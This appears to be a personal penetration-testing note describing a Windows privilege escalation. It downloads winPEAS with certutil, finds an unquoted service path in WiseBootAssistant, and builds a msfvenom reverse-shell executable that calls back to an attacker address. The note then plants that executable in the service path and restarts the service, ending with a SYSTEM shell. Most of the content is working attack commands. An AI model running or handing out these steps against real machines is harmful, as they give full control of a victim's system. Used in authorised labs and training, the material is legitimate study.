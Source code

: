 ```yaml
---
aliases: 
tags:
  - tech
  - cybsec
  - penetration_testing
  - report
author: Mehdi N Tehrani
creat_date: 2023-12-06
category: Cyber Security
subcategory: Penetration Testing - Report
---
```

#winpeas

# Download
`certutil.exe -urlcache -f https://github.com/carlospolop/PEASS-ng/releases/download/20231203-9cdcb38f/winPEASx64.exe winpeas.exe`
and run it.

tried the following in powershell and didn't work:
```
Invoke-WebRequest $myDownloadUrl -OutFile c:\file.ext
```

# Result
finding of interest:
`WiseBootAssistant(WiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected`


# msfvenom - 
#msfvenom
## Craft payload 
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.57.4 LPORT=80 -f exe -o ~/transfer/Wise.exe`
## Transfer file to Victim's Windows machine
## Move file to the right place
`mv Wise.exe 'C:\Program Files (x86)\Wise\'`

## Restart WiseBootAssistant service
`sc query WiseBootAssistant`
`sc stop WiseBootAssistant`
`sc start WiseBootAssistant`

or 

`net stop WiseBootAssistant`
`net start WiseBootAssistant`

or 

`powershell.exe`
`PS C:\>Get-Service Wise*`
`PS C:\>Restart-Service Wise*`

# rooted machine
```
C:\Windows\system32>whoami
whoami
nt authority\system
```
